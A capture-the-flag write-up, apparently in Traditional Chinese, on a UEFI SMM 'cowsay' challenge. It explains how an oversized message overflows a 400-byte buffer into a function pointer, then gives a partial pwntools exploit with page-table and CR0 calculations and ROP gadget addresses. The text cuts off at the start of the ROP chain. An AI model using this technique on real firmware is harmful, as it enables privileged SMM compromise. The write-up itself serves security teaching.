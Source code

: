   - `mDebugData.CowsayFunc = Cowsay` in the `SmmCowsayInit()`
  - 用 `AsmRdRand64()` 產生 `mDebugData.Canary`，而在後續會檢查 Canary 是否有變來判斷 overflow
  - `SmmCopyMemToSmram(mDebugData.Message, CommBuffer, TempCommBufferSize);`
    - 從 buffer 中複製 message 到 `mDebugData.Message`，大小為傳入參數 `*CommBufferSize` (變數 `TempCommBufferSize`)

- `SmmCowsayHandler()` 提供 icebp (int1, byte 0xf1) 來做斷點

  - 後續呼叫 `mDebugData.CowsayFunc(CommBuffer, TempCommBufferSize);`

- `Cowsay()` 唯一的不同就是會考慮傳進來的 message size

0005-PiSmmCpuDxeSmm-Protect-flag-addresses.patch

- 沒有 RWX page 了
- 0x44440000 的權限被設為 read protect，代表無法讀取



洞在於 `struct mDebugData` 的 `Message` field 只有 400 bytes (CHAR16 * 200) 空間，因此接在後面的其他 field 可以被 overflow，而緊接著的 field 則是 function pointer `CowsayFunc`。

exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

r = process('./run.sh')

r.recvuntil('SystemTable: ')
addr_system_table = int(r.recvline()[:-1], 16)
r.recvuntil('your code: ')
addr_code_buf = int(r.recvline()[:-1], 16)
info(f"addr_system_table: {hex(addr_system_table)}")
info(f"addr_code_buf: {hex(addr_code_buf)}")

addr_region_4 = 0x44440000

offset_BS = 0x60
offset_LocateFunc = 0x140
offset_AllocPool = 0x40
enum_EfiRuntimeServicesData = 6

### our target is to unset cr0.WP and write new PTE
# cr3 = [ PDBR=0x7fa7 PCID=0 ]
# cr0 = [ PG WP NE ET MP PE ]
level1_idx = (0x44440000 >> (12 + 9 + 9 + 9)) & 0x1ff # 0, 0x7fa8000
level2_idx = (0x44440000 >> (12 + 9 + 9)) & 0x1ff # 1, 0x7faa000
level3_idx = (0x44440000 >> (12 + 9)) & 0x1ff # 34, 0x7ed0000
level4_idx = (0x44440000 >> (12)) & 0x1ff # 64
addr_0x44440000_PTE = 0x7ed0200
new_0x44440000_PTE = 0x8000000044440067
new_cr0_value = 0x80010033 & ~(1 << 16)

rop_ret_0x70 = 0x7f8ba49
rop_pop_rsp_ret = 0x7fe5269
rop_pop_rax_ret = 0x7f8a184
rop_pop_rcx_rbx_ret = 0x7ee33fd
rop_mov_qptr_rcx_rax_ret = 0x7eea62d
rop_mov_cr0_rax_ret = 0x7fcf6ef
rop_mov_rax_qptr_rbx_add_rsp_0x28_ret = 0x7fdadc8

rop = [
    # update cr0
    rop_pop_rax_ret,
```